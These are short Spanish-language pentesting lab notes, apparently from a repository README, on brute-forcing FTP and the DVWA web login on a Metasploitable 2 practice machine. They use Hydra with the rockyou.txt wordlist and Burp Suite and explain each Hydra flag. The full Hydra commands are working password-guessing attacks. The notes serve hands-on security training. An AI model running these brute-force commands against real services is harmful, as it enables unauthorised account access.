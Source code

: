 TIPS:

```sh
$ hydra ip ftp -l si_tengo_el_usuario -P rockyou.txt -s puerto
```

* ftp -> nombre del servicio a atacar
* -l -> ele minúscula si conozco el usuario 
* -L -> + un file que contenga posibles nombres de usuarios.
* -P -> si no conozco el password utilizo el diccionario de rockyou.txt
* -s -> y el puerto que voy a atacar

Si todo esto funciona -> puedo hacer:

```sh
$ ftp ip -> debería aparecer conectado
$ ftp > ls
$ ftp > 
```

Utilizar BurpSuite - Hydra - rocky.txt con la máquina Metasploitable 2:

```sh
$ hydra -l admin -P rockyou.txt 192.168.64.3 http-post-form ‘/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed’
```

Interceptamos los prosas con BurpSuite:

![BurpSuite](burpsuite.png)

Comenzamos el ataque con hydra:

![hydra](hydra.png)

Efectivamente funcionan las credenciales:

![Metasploitable 2](metasploitable2.png)

